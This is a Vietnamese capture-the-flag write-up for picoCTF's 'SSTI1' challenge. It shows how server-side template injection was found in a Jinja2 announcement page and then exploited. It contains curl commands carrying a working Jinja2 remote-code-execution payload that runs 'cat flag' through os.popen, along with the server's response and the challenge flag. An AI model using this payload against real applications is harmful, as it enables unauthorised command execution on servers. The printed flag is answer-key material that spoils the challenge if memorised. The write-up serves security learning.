



# 🧠 Writeup: SSTI1 - PicoCTF 

> 🔖 Chủ đề: Server Side Template Injection (SSTI)  

---

## 📌 **Description**

> **_“I made a cool website where you can announce whatever you want! Try it out!_”**  
> Additional details will be available after launching your challenge instance.

> Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.

---

## 💡 **Hint**

> **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 

Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
##### Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 

---

Sau khi xác định được hệ thống tồn tại lỗ hổng Server-Side Template Injection (SSTI), ta tiếp tục thử nghiệm khai thác trên một instance mới tại địa chỉ:

``http://rescued-float.picoctf.net:63974/``

Đầu tiên, ta tiến hành kiểm tra xem lỗ hổng còn hoạt động hay không bằng cách gửi một yêu cầu đơn giản sử dụng lệnh:
```bash
#curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L
```
Kết quả phản hồi:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```
Điều này xác nhận rằng dữ liệu đầu vào từ người dùng vẫn được render trực tiếp trong template — một dấu hiệu rõ ràng của SSTI đang tồn tại.
Tiếp theo, ta thử khai thác RCE (Remote Code Execution) bằng cách sử dụng payload đã được chứng minh hiệu quả trong môi trường sử dụng Jinja2, cụ thể:

```bash
#curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/
```

Kết quả trả về từ server như sau:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```

Flag thu được là: ``picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}``
